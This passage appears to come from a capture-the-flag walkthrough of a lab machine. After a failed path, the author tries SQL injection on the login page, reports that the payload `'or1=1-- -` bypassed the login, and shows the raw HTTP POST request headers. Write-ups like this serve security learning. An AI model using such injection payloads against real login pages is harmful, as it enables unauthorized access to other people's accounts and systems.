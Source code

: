 ![error](error.png)

It seems that we might be on the wrong path.

At this point, I had to rethink my steps again and try some low hanging fruit such as SQL injection on the login page.

Trying `’or1=1--` failed but `’or1=1-- -` succeeded!

 ```http
 POST /login HTTP/1.1
 Host: 10.10.11.130
 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 32
 Origin: http://10.10.11.130
 Connection: close
 Referer: http://10.10.11.130/login
 Upgrade-Insecure-Requests: 1
 
 ```